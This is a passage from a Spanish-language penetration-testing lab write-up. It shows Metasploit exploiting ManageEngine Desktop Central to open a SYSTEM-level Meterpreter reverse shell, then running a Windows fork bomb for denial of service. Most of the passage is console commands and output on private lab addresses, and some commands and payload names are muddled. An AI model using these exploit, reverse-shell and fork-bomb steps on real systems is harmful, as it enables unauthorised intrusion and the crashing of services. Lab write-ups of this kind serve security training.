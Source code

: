```msf6 exploit(windows/http/manageengine_connectionid_write) > options
[*] Sending stage (200774 bytes) to 10.0.2.4
[+] Deleted ../webapps/DesktopCentral/jspf/zrlov.jsp
[*] Meterpreter session 1 opened (10.0.2.5:4444 -> 10.0.2.4:63918) at 2023-02-01 20:29:24 +0100

meterpreter > getsystem
[-] Already running as SYSTEM
```


#### ATAQUE DOS
Una vez dentro del servicio y estando como SYSTEM, tendriamos la escala de privilegios realizada pero podremos realizar ataques DOS hacia la misma máquina haciendo un poco de `scripting`.
Usaremos el `auxiliary(dos/http/slowris)`

```bash
msf6 > search slowris
```

```bash
msf6 exploit(windows/http/manageengine_connectionid_write) > options
```

Setearemos todas las opciones para poder usar el exploit con el payload `windows/x64/windows/meterpreter/reverse_tcp`
Una vez creada la sesión podremos crearnos una `shell`para ejecutar comando directamente desde la consola del servidor Windows.

```bash
meterpreter > shell
Process 4088 created.
Channel 2 created.
Microsoft Windows [Version 6.2.9200]
(c) 2012 Microsoft Corporation. All rights reserved.

C:\ManageEngine\DesktopCentral_Server\bin>
```

Una vez dentro podremos hacer una `bomb fork` con una línea de comandos simple 
`for /l %a in (0, 0, 0) do start`

```bash 
meterpreter > getsystem
[-] Already running as SYSTEM
meterpreter > shell
Process 4472 created.
Channel 3 created.
Microsoft Windows [Version 6.2.9200]
(c) 2012 Microsoft Corporation. All rights reserved.

C:\ManageEngine\DesktopCentral_Server\bin>echo "for /l %a in (0, 0, 0) do start"
echo "for /l %a in (0, 0, 0) do start"
"for /l %a in (0, 0, 0) do start"

C:\ManageEngine\DesktopCentral_Server\bin>for /l %a in (0, 0, 0) do start 
for /l %a in (0, 0, 0) do start

C:\ManageEngine\DesktopCentral_Server\bin>start
C:\ManageEngine\DesktopCentral_Server\bin>start
C:\ManageEngine\DesktopCentral_Server\bin>start
C:\ManageEngine\DesktopCentral_Server\bin>start
```
Podremos entrar dentro de la máquina para poder ver lo ocurrido en ella:
